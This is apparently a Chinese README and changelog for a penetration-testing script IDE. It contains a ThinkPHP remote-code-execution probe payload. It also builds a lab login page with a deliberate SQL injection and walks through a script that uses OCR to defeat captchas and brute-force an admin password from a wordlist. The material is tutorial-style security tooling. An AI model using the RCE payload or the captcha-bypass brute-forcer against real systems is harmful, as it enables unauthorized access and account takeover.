

就可以批量执行了。

双击脚本就可以看到脚本的源代码，然后运行就可以了：





但是漏洞探测的脚本需要注意的是，我们需要设置全局的url变量，因为：



```js
#request url = var
#define payload = /public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20wker
function main(args)
{
	res = HttpGet(url.payload,"User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36");
	if(StrFindStr(res[0],"wker",0)!= "-1")
	{
		print(url."存在thinkphp远程代码执行");
	}

}
```

因为我都是使用了#request要求IDE检查是否设置了url，只有在全局变量中设置了才可以。



这次更新我也附带了104个脚本文件，里面各式各样的脚本都有（有一些是抄的），以后也会经常更新（关注官方源）。



当然误报是正常的，不能确定百分百的正确性，但是已经是很不错的了。

并且修复了一个github的加载bug，之前加载中文路径错误（其实是我写的时候忘记URL编码了...）现在也进行了修复。



## V1.22

1. 更新了新特性界面
2. 增加除-g参数外的其他参数

```
usage: java -jar WkerIDE.jar -g
 -a <property=value>   全局数组设置(property=value),-aWker=God,handsome
                       -aWTL=good
 -g,--gui              打开gui界面
 -r,--run <arg>        运行脚本
 -v <property=value>   全局变量设置(property=value),-vWker=God
```

可以实现命令行直接执行脚本的需求

当然在下载文件中可以直接使用StartV1.X   当然大于1.8的要使用1.9

1. ## V1.23

   1. 修复了多支持库加载错误问题
   2. 增加了OCR识别支持库

   ### 验证码识别爆破

   在我们日常的爆破中会遇到许多阻止我们爆破的一些方式，例如：

   1. js加密
   2. 验证码
   3. ....

   js加密的话呢其实相对比较好解决，无非就是下段跟踪，没有太大的难题，但是验证码就比较麻烦了，这个是随机的，就算是人也没办法一直回答正确（今上午注册个账号，验证码搞得我直接放弃了），所以识别验证码是我们需要一起攻克的难题。

   基于图片的验证码识别其实无非就是两种：

   1. OCR的图片识别
   2. 人工智能训练好的模型

   起初我是想要实现第二种，也就是训练一个模型，但是在我训练的过程中发现java并不是是非的适合于做人工智能，训练是训练了好久，但是发现不是很理想，所以我就转到第一种OCR识别了，网上有比较成熟的库（Test4J），所以我就直接拿过来了，更新到了支持库里面：`ORCLibrary.jar`

   ### 实战

   本地搭建一个存在验证码的登录：

   首先是验证码图片展示的页面(`captcha.php`)：

   ```php
   <?php
   //向浏览器输出图片头信息
   header('Content-type:image/jpeg');
   $width=120;
   $height=40;
   $string='';//定义变量保存字体，这个一定不能省，不然回报警告
   $img=imagecreatetruecolor($width, $height);//imagecreatetruecolor函数建一个真彩色图像
   $arr=array('a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9');
   //生成彩色像素    
   $colorBg=imagecolorallocate($img,rand(200,255),rand(200,255),rand(200,255));//背景     imagecolorallocate函数为一幅图像分配颜色
   //填充函数，xy确定坐标，color颜色执行区域填充颜色
   imagefill($img, 0, 0, $colorBg);
   for($i=0;$i<4;$i++){
   	$string.=$arr[rand(0,count($arr)-1)];
   }
   session_start();
   $_SESSION["captcha"]=$string;
   $colorString=imagecolorallocate($img,rand(10,100),rand(10,100),rand(10,100));//文本
   //2种插入字符串字体的方式
   //imgettftext($img,字体大小（数字）,角度（数字）,rand(5,15),rand(30,35),$colorString,'字体样式的路径',$string);
   imagestring($img,5,rand(0,$width-36),rand(0,$height-15),$string,$colorString);
   //输出图片到浏览器
   imagejpeg($img);
   imagedestroy($img);
   ?>
   ```

   这个没啥太多好说的，就是生成一张验证码图片，然后将结果存储到session中，这种方法实际上是非常危险的，因为这样子会导致一个session重放的一个漏洞（验证码会失效），但是由于我们是在测试，所以暂时忽略这样子的一个问题。

   账号密码验证(`testyzm.php`):

   ```php+HTML
   <?php 
   @$a = $_POST["n"];
   @$c = $_POST["p"];
   @$yzm = $_POST["yzm"];
   if(isset($a) && isset($c) && isset($yzm)) {
   session_start();
   if(!isset($_SESSION["captcha"]))
   {
   	echo "captcha error";exit();
   }
   if($_SESSION["captcha"]!=$yzm)
   {
   	echo 'wrong captcha';
   	exit();
   }
   $b = mysql_connect("127.0.0.1",'xxx','xxx');
   mysql_select_db('fanke',$b);
   $sql = "select * from user where username='$a' and password='$c'";
   //echo $sql;
   $result = mysql_query($sql);
   if(!$result)
   {
   	die(mysql_error());
   }
   if($row = mysql_fetch_array($result)){
   	echo "success<br>";
   	echo "ID:".$row['id']."<br >";
   	echo "Ming:".$row['username']."<br >";
   	echo "mima:".$row['password']."<br >";
   }else{
   	echo "error password";
   }
   mysql_close($b);
   }else
   {?>
   <form action="testyzm.php" method="POST">
   name<input name="n" type="text" /><br><br>
   pass<input name="p" type="text" /><br><br>
   captcha<input name="yzm" type="text" /><br><br>
   
   <input type="submit" value="tijiao" />
    </form>
   <?php }
   ?>
   ```

   这个也没啥，就是通过输入的信息，先判断验证码，然后SQL查询，但是这个地方存在一个SQL注入，这里我们也暂时不考虑这些问题！

   好了，到此为止我们的基础信息就已经完成了，下面我们就是要来实现爆破这个信息，这里我先事先说一下，我们的默认账号是：`admin`

   ### 爆破分析

   首先我们想要做暴力破解我们就需要来分析这个网站的一个信息，首先我们先捕获账号密码提交的HTTP数据包：

   

   是一个post封包：

   1. n为用户名
   2. p为密码
   3. yzm为验证码

   到这里我们基本上就算是了解了，但是我们还不知道关键信息

   相应结果：

   1. 密码错误响应结果：`error password`
   2. 验证码错误响应结果：`wrong captcha`
   3. 密码正确暂时不知道

   所以我们现在的逻辑就知道了，我们无非就是一个循环发送封包寻找关键字的一个程序罢了，只不过在这期间我们需要识别验证码。

   那么如何传递验证码呢？

   我们访问验证码的图片可以发现，他会响应一个session，这个session里面存储了真正的验证码结果，所以我们需要得到这个session！

   ### 编写代码

   首先我们先要能够现在下来验证码的图片，使用OCR支持库中的`DownLoadImg`库函数

   1. 第一个参数是网络图片地址
   2. 第二个参数是本地存放的路径
   3. 返回值是相应的协议头

   我们从响应头中截取关键的session，可以通过前后文本进行区分，所以我们可以编写如下的代码：

   ```javascript
   function GetPhpSession(header){
   	return GettextMiddle(header,"PHPSESSID=",";");
   }
   function GetCaptcha(path){
   	return GetPhpSession(DownLoadImg("http://127.0.0.1:8080/captcha.php",path));
   }
   ```

   这样子我们只需要调用`GetCaptcha`函数就可以下载验证码并且得到验证码的session

   得到了图片和session之后我们就需要识别验证码，发送数据包，判断响应！

   ```javascript
   function JudgeSuccess(username,password){
   	session = GetCaptcha("b.jpg");
   	captcha = ImgIdVC("b.jpg");
   	res = HttpPost("http://127.0.0.1:8080/testyzm.php","n=".username."&p=".password."&yzm=".captcha,"Cookie: PHPSESSID=".session);
   	if(StrFindStr(res[0],"wrong",0) != "-1"){
   		print("验证码错误:".captcha);
   		return 1;//验证码错误
   	}
   	if(StrFindStr(res[0],"error",0) != "-1"){
   		print("密码错误:"."用户名:".username."   密码:".password."   验证码:".captcha);
   		return 2;//密码错误
   	}
   	if(StrFindStr(res[0],"success",0) != "-1"){
   		print("爆破成功,用户名:".username."   密码:".password);
   		return 3;//账号密码正确
   	}
   }
   ```

   上面的这个函数就是用来爆破的子函数，一共做了下面的几步：

   1. 获取session和下载图片到本地的b.jpg
   2. 使用本地的`ImgIdVC`库函数识别验证码
      1. 参数一是图片的本地路径
      2. 返回值是识别的结果
   3. 发送post封包，然后保存响应的结果
   4. 判断响应中是否存在wrong，如果存在返回1，并且打印验证码错误
   5. 判断响应中是否存在error，如果存在返回2，打印出错误的信息
   6. 判断响应中是否存在success，如果存在返回3，打印出正确的账号密码（这里是我进行预测的，当然其实这个写不写都可以，如果不存在error和wrong的话呢，说明登录成功）

   爆破的子函数写完之后我们就要在main函数中进行调用：

   ```javascript
   function main(args)
   {
   	username = "admin";
   	passList = StrSplit(ReadFile("password.txt"),StrRN());
   	num = GetArrayNum(passList);
   	i = 0;
   	while(i<num){
   		res = JudgeSuccess(username,passList[ToInt(i)]);
   		if(res == 2){i = i+1;}
   		if(res == 3){break;}
   	}
   	print("爆破完毕");
   }
   ```

   首先我们知道账号是admin，然后我们读取本地的password.txt文件，通过\r\n进行分割，得到一个密码字典数组，然后通过遍历数组进行爆破，但是这里有一点需要注意的是，我们如果`JudgeSuccess`返回的是一个1的话呢我们是不让i自增的，因为我们还需要再跑一次这个密码，如果是2则下一个密码，如果是3则密码成功。

   最终我们将会得到下面的结果：

   ![res]jpg/26.jpg)

   可以看到我们最终爆破成功了，验证码识别的并不是完全准确，但是准确率还是可以的。

   当然之后我会添加上需要人工智能的支持库，方便大家调用，并且还会推出许多渗透测试的函数出来！